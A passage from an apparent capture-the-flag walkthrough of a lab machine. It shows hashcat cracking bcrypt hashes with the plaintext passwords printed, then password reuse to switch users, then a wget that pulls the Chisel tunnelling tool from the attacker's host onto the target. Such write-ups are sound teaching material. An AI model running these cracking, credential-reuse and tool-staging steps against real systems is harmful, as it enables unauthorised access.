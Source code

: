 At the end, both passwords are known:

```

$ hashcat site-hashes /usr/share/wordlists/rockyou.txt --user -m 3200 --show
alice:$2a$12$hkqXQw6n0CxwBxEW/0obHOb.0/Grwie/4z95W3BhoFqpQRKIAxI7.:recliner-bellyaching-bungling-continuum-gonging-laryngitis
toby:$2a$12$AD54WZ4XBxPbNW/5gWUIKu0Hpv9UKN5RML3sDLuIqNqqimqnZYyle:greenday

```

### su

Given toby’s name is on the openmediavault-webgui account, it make sense to check that password for that user, and it works:

```

rails@derailed:~$ su - openmediavault-webgui 
Password: 
openmediavault-webgui@derailed:~$

```

openmediavault-webgui is not allow to SSH (because they are not in the ssh group, as shown [above](#ssh)):

```

oxdf@hacky$ ssh openmediavault-webgui@10.10.11.190
openmediavault-webgui@10.10.11.190's password: 
Permission denied, please try again.

```

But that’s ok as I have a very stable SSH shell from rails.

## Shell as root

### Web GUI

#### Tunnel

Given the clear signals to look at openmediavault, I’ll want to get a look at it. I already noted that this application is running on port 80 on localhost, and that I can’t SSH tunnel. I’ll upload [Chisel](https://github.com/jpillora/chisel):

```

openmediavault-webgui@derailed:/dev/shm$ wget 10.10.14.6/chisel_1.8.1_linux_amd64
--2023-07-20 13:37:31--  http://10.10.14.6/chisel_1.8.1_linux_amd64
Connecting to 10.10.14.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8384512 (8.0M) [application/octet-stream]
Saving to: ‘chisel_1.8.1_linux_amd64’

chisel_1.8.1_linux_amd64                    100% [============================================>]   8.00M  7.51MB/s    in 1.1s

2023-07-20 13:37:33 (7.51 MB/s) - ‘chisel_1.8.1_linux_amd64’ saved [8384512/8384512]

```
